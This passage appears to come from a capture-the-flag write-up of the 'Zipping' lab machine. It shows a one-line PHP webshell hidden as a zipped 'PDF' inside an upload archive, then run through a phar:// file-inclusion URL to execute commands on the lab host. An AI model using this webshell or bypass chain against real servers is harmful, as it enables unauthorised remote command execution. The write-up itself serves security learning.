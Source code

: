 #### Exploit Zipping

I’ll create a simple webshell, `shell.php`:

```
<?php system($_REQUEST['cmd']); ?>

```

I’ll zip it into a file called `shell.pdf`:

```
oxdf@hacky$ zip shell.pdf shell.php
  adding: shell.php (stored 0%)
oxdf@hacky$ unzip -l shell.pdf
Archive:  shell.pdf
  Length      Date    Time    Name
---------  ---------- -----   ----
       35  2024-01-11 14:26   shell.php
---------                     -------
       35                     1 file

```

I’ll put that into a zip archive called `shell.zip`:

```
oxdf@hacky$ zip shell.zip shell.pdf
  adding: shell.pdf (deflated 34%)
oxdf@hacky$ unzip -l shell.zip
Archive:  shell.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
      203  2024-01-11 14:26   shell.pdf
---------                     -------
      203                     1 file

```

Now when I upload that zip, Zipping will unzip `shell.pdf` and return me the link to it:

![image-20240111142822352](https://0xdf.gitlab.io/img/image-20240111142822352.png)

I know that file is at `/var/www/html/uploads/ea409d50349a8436fe49f7ec66aa6132/shell.pdf`, so I can visit:

```
http://10.10.11.229/shop/index.php?page=phar:///var/www/html/uploads/ea409d50349a8436fe49f7ec66aa6132/shell.pdf/shell&cmd=id

```

And it runs the given command, `id`:

```
oxdf@hacky$ curl 'http://10.10.11.229/shop/index.php?page=phar:///var/www/html/uploads/ea409d50349a8436fe49f7ec66aa6132/shell.pdf/shell&cmd=id'
uid=1001(rektsu) gid=1001(rektsu) groups=1001(rektsu)

```

That’s a super cool trick!





